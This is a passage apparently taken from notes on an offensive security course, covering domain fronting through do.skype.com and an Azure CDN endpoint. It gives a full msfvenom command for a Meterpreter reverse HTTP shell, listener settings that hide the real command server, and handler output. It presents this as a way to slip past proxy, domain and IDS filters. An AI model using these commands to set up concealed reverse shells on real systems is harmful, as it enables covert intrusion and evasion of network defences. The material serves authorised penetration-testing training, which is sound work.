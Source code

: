 The certificate in the TLS key exchange is Microsoft's certificate. We can verify this by selecting the _Certificate, Server Key Exchange, Server Hello Done_ packet, and inspecting its details:

![[OffSec/OSEP/Course/z. images/2b4f949174b4fffbf29f7eca0a38f0c1_MD5.jpg]]

Figure 41: Certificate from do.skype.com

In the same packet, we also find that this certificate is valid for 99 different domains, which is set via the _Subject Alternative Names_ (SAN).[2](https://portal.offsec.com/courses/pen-200-44065/learning/vulnerability-scanning-48659/wrapping-up-48703/wrapping-up-48710#fn-local_id_5269-2) This means that a single certificate can be used for 99 different domains and will use the same encryption key:

![[OffSec/OSEP/Course/z. images/d99a741cf67f3f452e9329d8eb2c3056_MD5.jpg]]

Figure 42: Alternate domain names of the certificate

We can also view the details of the SAN in this packet.

In short, domain fronting is working perfectly via both HTTP and HTTPS. This means that if our target environment is not using HTTPS inspection, our HTTPS traffic will not only be hidden but it will appear to be directed to do.skype.com.

Since many organizations use Skype for meetings, this traffic won't stand out and will be considered legitimate. This allows us to bypass domain, proxy, and IDS filters in one shot.

The last item we need to test is that our reverse shell is working properly. We'll use HTTP so we can inspect the traffic contents, allowing us to verify that the connection is being set up as intended.

First, we'll create a reverse shell payload. The only extra field we need to set is the _HttpHostHeader_, which will set the Host header in HTTP.

```
kali@kali:~$ msfvenom -p windows/x64/meterpreter/reverse_http LHOST=do.skype.com LPORT=80 HttpHostHeader=offensive-security.azureedge.net -f exe > http-df.exe
```

> Listing 22 - Creating Meterpreter reverse HTTP shell with HttpHostHeader option

Next, we need to configure a listener on our VM that is hosting meterpreter.info.

When we use a staged payload, there are some additional settings we need to configure for our listener.

The first stage will set the address for the second stage based on the actual IP address and port of the listener. This won't work for us because it will directly connect to our real IP. Since we obviously want to hide communication to this IP, we'll need to ensure that the second stage is also connecting to do.skype.com.

To do this, we'll need to set up some advanced options for our listener. We need to set the _OverrideLHOST_ option to our domain, and also set _OverrideRequestHost_ to "true". We can change the listening port as well with the _OverrideLPORT_ option, but this is unnecessary for this example.

Once this is set up we will start the listener with run -j, which will run the listener as a job.

```
msf5 exploit(multi/handler) > set LHOST do.skype.com

msf5 exploit(multi/handler) > set OverrideLHOST do.skype.com

msf5 exploit(multi/handler) > set OverrideRequestHost true

msf5 exploit(multi/handler) > set HttpHostHeader offensive-security.azureedge.net

msf5 exploit(multi/handler) > run -j
...

[-] Handler failed to bind to 152.199.19.161:80
[*] Started HTTP reverse handler on http://0.0.0.0:80
```
